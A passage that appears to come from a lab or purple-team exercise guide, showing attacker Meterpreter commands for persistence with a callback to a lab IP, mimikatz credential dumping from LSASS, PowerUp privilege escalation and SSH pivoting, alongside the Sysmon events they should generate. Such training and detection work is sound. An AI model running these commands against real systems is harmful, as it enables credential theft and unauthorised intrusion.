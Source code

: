 ### Phase 2: Persistence and Privilege Escalation (45 minutes)

#### Attacker Actions (Meterpreter Session)
```bash
# Meterpreter commands
meterpreter > sysinfo
meterpreter > getuid
meterpreter > ps

# Upload additional tools
meterpreter > upload /opt/mimikatz.exe C:\\Windows\\Temp\\
meterpreter > upload /opt/PowerUp.ps1 C:\\Windows\\Temp\\

# Execute privilege escalation
meterpreter > execute -f powershell.exe -a "-ExecutionPolicy Bypass -File C:\\Windows\\Temp\\PowerUp.ps1" -i

# Create additional persistence
meterpreter > run persistence -S -U -X -i 60 -p 4445 -r 10.0.2.15

# Dump credentials
meterpreter > execute -f C:\\Windows\\Temp\\mimikatz.exe -a "sekurlsa::logonpasswords exit" -i
```

#### Expected Logs Generated
```powershell
# Sysmon Event ID 7 - Image/DLL Load
Event ID: 7
Process: svchost.exe
ImageLoaded: C:\Windows\System32\ntdll.dll

# Sysmon Event ID 8 - CreateRemoteThread
Event ID: 8
SourceProcess: svchost.exe
TargetProcess: lsass.exe

# Sysmon Event ID 10 - Process Access
Event ID: 10
SourceProcess: mimikatz.exe
TargetProcess: lsass.exe
GrantedAccess: 0x1010
```

### Phase 3: Lateral Movement (30 minutes)

#### Attacker Actions
```bash
# Enumerate network
meterpreter > run post/windows/gather/enum_domain
meterpreter > run post/windows/gather/enum_computers

# Attempt lateral movement to Linux system
meterpreter > portfwd add -l 2222 -p 22 -r 10.0.2.101
meterpreter > execute -f plink.exe -a "-ssh vulnerable@127.0.0.1 -P 2222 -pw password"

# Alternative: Use stolen credentials
# psexec.py domain/user:password@10.0.2.101
```

